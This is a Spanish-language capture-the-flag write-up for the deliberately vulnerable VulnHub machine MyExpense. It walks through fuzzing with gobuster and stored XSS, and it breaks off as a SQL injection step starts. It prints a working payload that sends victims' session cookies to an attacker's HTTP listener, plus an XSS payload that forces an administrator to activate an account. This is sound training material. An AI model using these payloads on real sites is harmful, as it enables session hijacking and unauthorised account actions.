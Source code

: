 ![image](https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/assets/137443771/2c1910a6-f323-456e-9a50-d83308355f41)# MyExpense

- Máquina de vulnhub, para practicar XSS y SQL Injection  
- Descarga: <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense</a>

### Antecedentes
Tenemos un usuario llamado Samuel, que ha sido despedido de la empresa y le deben todavía 750€ de un viaje que hizo. Para cobrarlo, debemos hacer la solicitud a través de la web pero nuestro usuario ha sido eliminado o deshabilitado. Nuestra misión es intentar loguearnos y conseguir cobrar esa cantidad.  
Your credentials were: samuel/fzghn4lw

### Accediendo a la web
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense1.jpg?raw=true">
Introducimos la url en el navegador y vamos al apartado para crear una cuenta. El botón de crear cuenta está bloqueado, así que inspeccionamos el codigo fuente y desbloqueamos el botón eliminando la línea **disabled**

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense2.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense3.jpg?raw=true">

Intentamos hacer login pero nuestra cuenta está deshabilitada

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense4.jpg?raw=true">

### Fuzzing

Hacemos fuzzing con gobuster y encontramos la carpeta admin

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense5.jpg?raw=true">

seguimos fuzzeando y encontramos admin.php y accedemos. Vemos que aparece un panel con los datos de usuarios, y Samuel y los usuarios creados están deshabilitados. no se pueden deshabilitar. solo puede un administrador.

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense6.jpg?raw=true">


### XSS 
En formulario de creación de usuarios se ha detectado que se puede hacer XSS, con lo que con suerte, podremos robar la cookie de sesión del Administrador.  

Ponemos a la escucha con netcat en kali:  
```
python3 -m http.server 80
```

Introducimos el siguiente codigo en el formulario, por ejemplo en el campo de apellido:
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense7.jpg?raw=true">
```
#XSS Payload
<script>img = new Image(); img.src = "http://192.168.43.57/a.php?"+document.cookie;</script>
```
Hemos recibido la cookie!
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense8.jpg?raw=true">

Pero no nos sirve porque no puede estar el administrador logueado en 2 equipos distintos a la vez. Así que hay que forzar a que el administrador utilice el botón para activar el usuario.  
Si nos fijamos al clicar el boton, es simplemente una acción que lleva a una URL, probaremos a meter esa url en el código XSS
Para ello volvemos a crear otro usuario y en el apellido, por ejemplo. Metemos el siguiente código:  

```
# XSS Payload
<script>document.write('<img src="http://192.168.56.104/admin/admin.php?id=11&status=active"/>');</script>

```
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense9.jpg?raw=true">
esperamos un poco y voilá! se activó!
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense10.jpg?raw=true">

### Enviando la solicutid de pago
Una vez en el perfil de Samuel, aceptamos el envío de la solicitud de los 750€. Parece que el manager Manon Riviere debe aprobar esto. para ello deberemos robarle la sesión.  
Parece que tienen un chat en común, así que aprovecharemos el textbox para hacer un robo de sesión con cookies.  
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense11.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense12.jpg?raw=true">

Una vez en el perfil, aceptamos la solicitud.
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense13.jpg?raw=true">

### SQL Injection
La solicitud está aceptada pero tiene que ser aprobada por un financial aprover, que el financial aprover de este usuario es: Paul Baudouin.
En Rennes, vemos lo que parece una consulta a una BBDD, y en la URL también parece indicarlo. probaremos una inyección SQL
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense14.jpg?raw=true">


